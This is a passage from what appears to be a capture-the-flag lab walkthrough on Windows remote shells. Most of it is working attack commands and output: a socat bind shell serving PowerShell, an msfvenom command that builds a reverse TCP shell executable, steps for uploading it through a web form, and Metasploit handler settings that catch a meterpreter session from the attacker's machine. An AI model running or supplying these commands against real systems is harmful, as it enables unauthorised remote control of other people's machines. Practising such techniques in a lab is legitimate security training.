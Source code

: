 1. Session established.

Windows PowerShell

Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator>

**Create a socat bind shell (using existing RDP session).**

1. Create listener at command prompt of target.

socat TCP-L:1234 EXEC:powershell.exe,pipes

1. Connect to waiting listener from attacker.

socat TCP:10.10.70.179:1234 -

1. Session established.

Windows PowerShell

Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator>

Create a 64bit Windows Meterpreter shell using msfvenom and upload it to the Windows Target. Activate the shell and catch it with multi/handler. Experiment with the features of this shell.

1. Create msfvenom payload.

msfvenom -p windows/x64/shell/reverse\_tcp -f exe -o shell.exe LHOST=10.10.248.19 LPORT=1234

1. Upload shell.exe to the target.

* Browse to[ http://10.10.70.179](http://10.10.70.179/) in attacker’s browser.
* Click ‘Browse’ button.
* Navigate to /root/shell.exe.
* Click ‘Open’ to select the file.
* Click ‘Submit’ to upload the file.

1. Create Meterpreter listener to catch the reverse shell.

* Msfconsole
* use multi/handler
* set LHOST 10.10.248.19
* set LPORT 1234
* set PAYLOAD windows/x64/meterpreter/reverse\_tcp
* run

1. Execute the shell.

* RDP to target.
* Open browser on the target.
* Browse to http://127.0.0.1/uploads.
* Save the shell.exe file.
* Run file

1. Meterpreter session is created on attacker.

\[+] Sending stage (200774 bytes) to 10.10.70.179
